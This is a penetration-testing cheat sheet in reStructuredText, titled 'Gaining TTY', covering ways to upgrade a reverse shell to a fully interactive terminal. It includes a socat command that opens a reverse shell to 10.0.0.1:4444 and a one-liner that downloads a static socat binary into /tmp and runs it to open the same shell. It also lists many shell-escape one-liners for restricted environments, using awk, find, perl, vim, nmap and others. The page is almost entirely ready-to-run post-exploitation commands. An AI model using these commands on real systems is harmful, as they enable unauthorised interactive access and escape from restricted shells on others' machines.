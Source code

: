 ## ** Gaining TTY **


Check to see if we have a TTY:

.. code-block:: bash

    if [ -t 1 ] ; then echo terminal; else echo "not a terminal"; fi

Python
------

.. code-block:: none

    python -c 'import pty; pty.spawn("/bin/sh")'
    python -c 'import pty; pty.spawn("/bin/bash")'
    python3 -c 'import pty; pty.spawn("/bin/bash")'

    export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/tmp
    export TERM=xterm-256color
    alias ll='ls -lsaht --color=auto'
    Ctrl + Z   [Background Process]
    stty raw -echo; fg; reset
    stty columns 200 rows 200

socat
-----

Run listener on local machine:

.. code-block:: none

    socat file:`tty`,raw,echo=0 tcp-listen:4444

Run on remote machine:

.. code-block:: none

    socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.0.0.1:4444

If socat isn't installed, you can try and download a static binary and run that:

.. code-block:: none

    wget -q https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/socat -O /tmp/socat; chmod +x /tmp/socat; /tmp/socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.0.0.1:4444

netcat "magic"
--------------

.. code-block:: bash

    # In reverse shell
    python -c 'import pty; pty.spawn("/bin/bash")'
    Ctrl-Z

    # In Kali
    echo $TERM # note this value
    stty -a # note values
    stty raw -echo; fg

    # In reverse shell
    reset
    export SHELL=bash
    export TERM=xterm-256color # value from before
    stty rows <num> columns <cols> # values from before

sh
--

.. code-block:: none

    /bin/sh -i

awk
---

.. code-block:: none

    awk 'BEGIN {system("/bin/bash")}'

find
----

.. code-block:: none

    find / -exec /usr/bin/awk 'BEGIN {system("/bin/bash")}' \;

Perl
----

.. code-block:: none

    perl -e 'exec "/bin/sh";'

    OR

    perl: exec "/bin/sh";

Ruby
----

.. code-block:: none

    ruby: exec "/bin/sh"

vi / vim
--------

.. code-block:: none

    vi --not-a-term -c '!sh'

.. code-block:: none

    vim --not-a-term --cmd '!sh' --cmd ':q!'

If --cmd is not enabled, first create a file with the following contents:

.. code-block:: none

    :set shell=/bin/bash
    :shell

Now execute the following:

.. code-block:: none

    vi -s <file>

    OR

    vim -s <file>

Lua
---

.. code-block:: none

    lua: os.execute('/bin/sh')

From within IRB
---------------

.. code-block:: none

    exec "/bin/sh"

From within vi / vim
--------------------

.. code-block:: none

    :!bash

    OR

    :set shell=/bin/bash:shell

From within nmap
----------------

.. code-block:: none

    !sh

echo
----

Note: This may be limited to LShell, a limited shell implemented in Python.

.. code-block:: none

    echo os.system('/bin/bash')

Resources
---------

https://netsec.ws/?p=337
https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/
